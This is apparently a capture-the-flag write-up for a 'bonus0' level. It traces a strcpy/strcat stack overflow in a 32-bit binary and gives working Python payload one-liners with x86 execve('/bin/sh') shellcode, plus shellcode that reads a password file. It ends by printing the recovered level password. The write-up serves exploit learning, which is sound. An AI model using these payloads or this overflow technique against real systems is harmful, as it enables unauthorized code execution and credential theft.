### Bonus0

#### Basic Recon


well there's no `system` so we may insert some shellcode but there's `puts` but there's no `fopen` so its unlikely that the password is being printed, and there's no clear BOF let's debug and see what is going on

### Debug


stack look something like this now


as you can see main stack frame has 72 bytes of free space





so `pp` is being called like this

```c
pp(
    0xbffff6d6 // pointer in the main memory stack
);
```

let's step inside and see what is going on








there's a call to `p` like this

```c
p(
    0xbffff688, // pointer in the pp stack frame
    0x080486a0 // pointer to the string ` - `
);
```

let's see what is inside `p`

and from that `sub esp, 0x1018` that the stack frame of this function is pretty big maybe there's array here.



you can see that there's a call to `puts` with the second argument that has been passed to `p` which is the pointer to ` - `


you can see that we have pushed the value `0x1000` into the third place (argument) that will be used be the next read,


now the value `0xbfffe650` which is pointer in the current stack frame `p frame` is passed as the second argument to read

now there's a call to `read` like this

```c
read(
    0x0, // file descriptor
    0xbfffe650, // pointer into the current stack frame
    0x1000 // how much should we read from the user
);
```
okay let's pass something for now




from the picture you can see that next we will call `strchr` let's see what are it's parameters



```c
strchr(
    0xbfffe650, // pointer to our input
    0xa // which is ascii for `\n`
);
```

it will return pointer to first occurrence to `\n`
after that there's `mov BYTE PTR [eax], 0x0` so what is happening here is that they are looking for `\n` in our input and put in it's place `\0` so WHAT WILL HAPPEN IF OUR INPUT DOES NOT CONTAIN `\n`?? keep this question in mind.


so we will call `strncpy` with what?

BTW if it was strcpy we may overflow, but now there's no clear path to exploit let's continue

as you can see that `lea eax, [ebp-0x1008]` will change eax to hold the value `0xbfffe650` pointer to our input.



after that we put the value `0x14 = 20` into the third location in the stack, aka third for next call to `strncpy`
now we have something that look like this

```c
strncpy(
    xxxxxxx,
    xxxxxxx,
    0x14
);
```

after that we load the value of `eax` into the second place

```c
strncpy(
    xxxxxxx,
    0xbfffe650,
    0x14
);
```

and there's this instruction `mov eax, DWORD PTR [ebp+0x8]` notice that it uses `ebp` not `esp`, eax now will hold the first argument that has been passed to `p` which is `0xbffff688`


and then pass it as first argument to `strncpy`

```c
strncpy(
    0xbffff688, // pointer in stack frame of pp
    0xbfffe650, // our input
    0x14 // how much to copy
);
```



well now our input is in the stack from of `pp`, okay let's continue

you can see that there's another call to with the same second argument as before `0x080486a0` but different first argument,

#### first call to p
was with `ebp - 0x30` 

#### second call now
with `ebp - 0x1c`

they both point the current stack and `0x30 - 0x1c = 0x14`
weird which is what `strncpy` will copy remember third argument!!! COINCIDENCE MAYBE KEEP THIS IN MIND TO

```c
p(
    0xbffff69c, // pointer in the pp stack frame also
    0x080486a0 // pointer to the string ` - `
);
```



now `p` will copy our input to that location, well to be exact the first 20 bytes of our input


stack of `p` look something like this



after that you can see that there's a call to `strcpy` well this is great maybe we can overflow something,

you can see that we put the value `ebp-0x30` which is pointer to our first input in `[esp+0x4]` which is the second argument to `strcpy` and after that we put the value `ebp+0x8` which is the argument that has been passed to us from main `0xbffff6d6` pointer in main stack in `[esp]`


```c
strcpy(
    0xbffff6d6, // pointer to main stack frame
    0xbffff688 // our processed input
);
```

I said `processed input` in the comment because it passed through `p` and `p` has called strncpy and strchr on it

can we overflow the stack now since we are using `strcpy` well if the second parameter was greater thn 20=0x14 then maybe but hold on you remeber when I said `WHAT WILL HAPPEN IF OUR INPUT DOES NOT CONTAIN \n??` let's see how the memory would look like in this case (stack frame of pp)


`x` and `x1` are not `\0` so max that `strcpy` can copy from this memory is `20 + 20 + 4` first 20 is for first input and second for the second input why 0 just that value that we pushed before there so in total we can copy 44 is that enough to overflow the `main stack` well now if you remember that the main stack is 50, so no okay mayber there's copy of some sort that we can combine with this to overflow the main stack.



there's a lot of instructions before we call `strcat` let's see what is going on.




`ebx` points to ` `, and `eax` to input of `pp` in main stack frame 




after we copy the value of `eax` into `edx` so now `edx` also points the passed value to `pp`

mov 0 into `eax`
mov the value from [ebp-0x3c] which is `0xffffffff` into `ecx` 

mov value of `edx` into `edi`

what we have now is
- `edi`: `0xbffff6d6`
- `ecx`: `0xffffffff`
- `al`: `0x0`

```s
repnz scas al, BYTE PTR es:[edi]
```

it will scan string for `\0` and change ecx accordingly




notice that ecx has decreased exactly by 15 which is the lenght of our input



what is happening in this add, well after this operation eax
will be pointing to the location of `\0`



moving the value at `[ebx]` which is `" "` into edx
after that we move that in place of `\0`



so what happend is that the end of our input swaped with `" "`

now we will call `strcat` with `[ebp-0x1c]` which is pointer the second input of ours as second argument, the `[ebp+0x8]` as first input

```c
strcat(
    0xbffff6d6, // pointer in the main stack frame
    0xbffff69c
);
```



and strcat will add the second input on top of the first, and BTW we said that the first copy can put there (main stack) 44 with addition 24 we can reach 68 which is definitely overflow. so yeah we can overflow what now?

let's reiterate to see what combination can overflow

- input1: should not contain '\n' in it's first 20 characters
- input2: i don't know yet

let's see the memory and see what should we do



as you can see our input should be 54 and the last 4 will the desired return address `0xbffff6d6`

first input I'll put a 20-byte shell code, 

```
\x31\xc0\x66\xba\x0e\x27\x66\x81\xea\x06\x27\xb0\x37\xcd\x80\x90\x90\x90\x90\x90
```

and another 20 bytes for the second input and see and see

**exact locations on the stack**



a
##### Payload

```py
python -c "print('\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd')"
```

```py
python -c "print('\x80' + 'A'*13 + '\xd6\xf6\xff\xbf' + 'A')"
```


we are jumping to shellcode but I got only segfaults why? no idea

I'm going to try to insert not shellcode but other code that will cat the file directly something like
this 

```c
system("/bin/cat /home/user/bonus1/.pass");
```

but when I tried to compile this and get some binary code I got more than 61 bytes which I can not put
on the stack frame of `main`, if you recall the biggest stack is on `p` let's try to move there our
current shellcode and later swap it 


```py
python -c 'print "\x90" * 99 + "\x0a" + "\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x70\x61\x73\x73\x68\x73\x31\x2f\x2e\x68\x62\x6f\x6e\x75\x68\x73\x65\x72\x2f\x68\x6d\x65\x2f\x75\x68\x2f\x2f\x68\x6f\x89\xe1\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80"'

python -c 'print "A"*14 + "\xb4\xe6\xff\xbf" + "A"'
```



again the same problem

I tried to put cat instead of `/bin/sh` but it did not work either

so I'll try to input shell as second parameter and see what is the difference? I have no idea, I'm just
trying different stuff

let's try this one

```py
python -c 'print "\x90"*4094 + "\x0a"'

python -c 'print "A"*14 + "\xb4\xe6\xff\xbf" + "A"*82+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "C"*3967 + "\x0a"'
```



as you can see I missed by additional 5, let's correct for that 


```py
python -c 'print "\x90"*4094 + "\x0a"'

python -c 'print "A"*9 + "\xb4\xe6\xff\xbf" + "A"*87+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "C"*3967 + "\x0a"'
```

##### Password For bonus1

```
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```